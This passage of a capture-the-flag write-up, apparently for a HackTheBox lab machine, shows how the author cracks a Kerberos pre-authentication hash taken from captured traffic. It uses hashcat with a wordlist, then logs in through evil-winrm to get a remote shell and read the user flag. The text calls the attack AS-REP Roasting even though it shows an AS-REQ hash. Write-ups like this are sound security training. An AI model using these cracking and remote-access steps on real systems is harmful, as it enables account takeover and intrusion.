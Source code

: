 <p class="indent-paragraph">
Following the network traffic analysis, an AS-REQ message from the user <code>Lion.SK</code> was identified using <code>tshark</code><span class="codefix">,</span> with the encryption type <code>etype 18</code> (AES256-CTS-HMAC-SHA1-96) and containing a cipher blob indicative of pre-authentication data exposure. This condition made the user a viable target for an <strong>AS-REP Roasting</strong> attack, which exploits the absence of enforced pre-authentication on Kerberos accounts. The extracted hash was formatted for cracking and successfully processed using <code>hashcat</code> with mode <code>19900</code><span class="codefix">,</span> revealing the user’s plaintext password as <code>!QAZ2wsx</code><span class="codefix">.</span>
</p>

```
~$ nano hash-lion.txt

$krb5pa$18$Lion.SK$CERTIFICATE.HTB$<cipher>

~$ hashcat -m 19900 -a 0 hash-lion.txt /usr/share/wordlists/rockyou.txt       
hashcat (v6.2.6) starting

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$krb5pa$18$Lion.SK$CERTIFICATE.HTB$23f5159fa1c66ed7b0e561543eba6c010cd31f7e4a4377c2925cf306b98ed1e4f3951a50bc083c9bc0f16f0f586181c9d4ceda3fb5e852f0:!QAZ2wsx
```

<p class="indent-paragraph">
With the password <code>!QAZ2wsx</code> obtained from a successful AS-REP Roasting attack, access to the target machine was established via <code>evil-winrm</code> using the credentials <code>Lion.SK</code><span class="codefix">.</span> Upon authentication, the session opened a remote PowerShell shell, confirming valid user access. Navigating through the user's profile, the <code>user.txt</code> file was located on the Desktop directory and successfully retrieved, revealing the first flag.
</p>

```
~$ evil-winrm -i 10.10.11.71 -u Lion.SK -p '!QAZ2wsx'
                                        
Evil-WinRM shell v3.7
                                        
Info: Establishing connection to remote endpoint
~$ *Evil-WinRM* PS C:\Users\Lion.SK\Desktop> dir


    Directory: C:\Users\Lion.SK\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        7/24/2025   9:00 AM             34 user.txt

~$ *Evil-WinRM* PS C:\Users\Lion.SK\Desktop> cat *
*********************************
```
